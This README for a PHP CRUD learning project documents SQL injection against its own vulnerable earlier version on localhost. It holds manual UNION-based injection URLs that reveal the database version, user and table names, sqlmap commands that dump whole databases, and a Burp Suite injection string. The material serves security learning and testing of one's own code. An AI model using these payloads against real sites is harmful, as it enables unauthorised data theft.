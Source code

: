# crud_php_v2 with SQL Injection fix

<!-- 
De aqui hacia abajo se trata de documentar este proyecto
La gran aprte de la documentacion viene comentado en el archivo de conexion de base de datos
-->

PHP, CSS and native Javascript were used

## Acknowledgements

 - [PHP Elephant](https://www.php.net/manual/es/index.php)
 - [Rasmus Lerdorf](https://toys.lerdorf.com/)
 - [To my family and loved ones](https://github.com/devSecD)

## Authors

- [@devSecD](https://github.com/devSecD)

## Deployment

To deploy this project run

For local environment:
- Xampp (cross-platform)
- WampServer (windows)
- LAMP (linux)

## Features

- Continue discovering vulnerabilities and fixing them
- Refactor Code
- Add unit tests

## Built with

- Native PHP in version 8.1.12
- native HTML
- Native CSS
- Native Javascript

## Link references

- [Php](https://www.php.net/manual/es/index.php)

## Documentation

### Manual SQLi

* First we test if it is prone to an attack from the vulnerability
For this we look for the url where it has a parameter and at the end we add a single quote
* Later we perform the attack based on union
```
crud_php_v1/form_update.php?id=3%27%20UNION%20ALL%20SELECT%20NULL--%20-
```
```
SELECT * FROM persona WHERE id = '3' UNION ALL SELECT NULL;-- -'
```
* We must do this until it no longer errors
```
SELECT * FROM persona WHERE id = '3' UNION ALL SELECT NULL,NULL,NULL,NULL;-- -'
```
* We change the condition so that it can show us all the columns that we want to come after the union, in the end the url would look like this
```
http://localhost/crud_php_v1/form_update.php?id=10%27%20UNION%20ALL%20SELECT%20%27A%27,%20@@version,user(),database()--%20-

**@@version** - database manager version
**user()** - database user
**database()** - database name
```

* Afterwards we do the following
```
http://localhost/crud_php_v1/form_update.php?id=10%27%20UNION%20ALL%20SELECT%20NULL%20,group_concat(table_name),user(),4%20from%20information_schema.tables%20where%20table_schema=database()--%20-

group_concat(table_name) and from information_schema.columns where table_schema=database() - makes a concatenation of all the names in the database
```

#### Research links

- [SQLite online](https://sqliteonline.com/)
- [SQL UNION operator](https://www.w3schools.com/sql/sql_union.asp)
- [Web base for sql injection attack](https://www.infosecinstitute.com/resources/hacking/dumping-a-database-using-sql-injection/)

### SQLi con SQLMap

* We dump the database. With this we will obtain the name of the database
```
sqlmap -u "vulnerable_url" --dbs
```
* We add all the tables in the database. With this we will obtain all the tables of the desired database
```
sqlmap -u "vulnerable_url" -D name_database --dump-all --batch
```
#### Research links

- [Web official SQLMap](https://sqlmap.org/)
- [Features SQLMap](https://github.com/sqlmapproject/sqlmap/wiki/Features)
- [Presentations SQLMap](https://github.com/sqlmapproject/sqlmap/wiki/Presentations)
- [GitHub SQLMap](https://github.com/sqlmapproject/sqlmap)
- [FAQ SQLMap](https://github.com/sqlmapproject/sqlmap/wiki/FAQ)
- [Web base for sql injection attack](https://secnhack.in/multiple-ways-to-dump-website-database-via-sqlmap/)


### SQLi with Software Proxy (Burp Suite - Community Edition)

* [Download the version that will be used](https://portswigger.net/burp/communitydownload)
* We open burp suite and click on the default options of the first two screens.
* We select the tab that says "Proxy"
* Click on the "intercept on" button
* Click on the "open browser" button
* The browser will open and we will access the url that we want to intercept the http(s) request
* We give it "forward" ("next") until the url page finishes loading
* In the history we can see the request and response of that url
* sql injection test string - this is put in the value of the burp suite
```
UNION ALL SELECT 'A', @@version,user(),database()-- -
```

#### Research links

- [Burp Suite Documentation](https://portswigger.net/burp/documentation/desktop)
- [Requirements](https://portswigger.net/burp/documentation/desktop/getting-started/system-requirements)
- [Quick Start Guide](https://portswigger.net/burp/documentation/desktop/getting-started)
- [General documentation about SQLi](https://portswigger.net/web-security/sql-injection)
- [Solution to SQL injection vulnerability](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
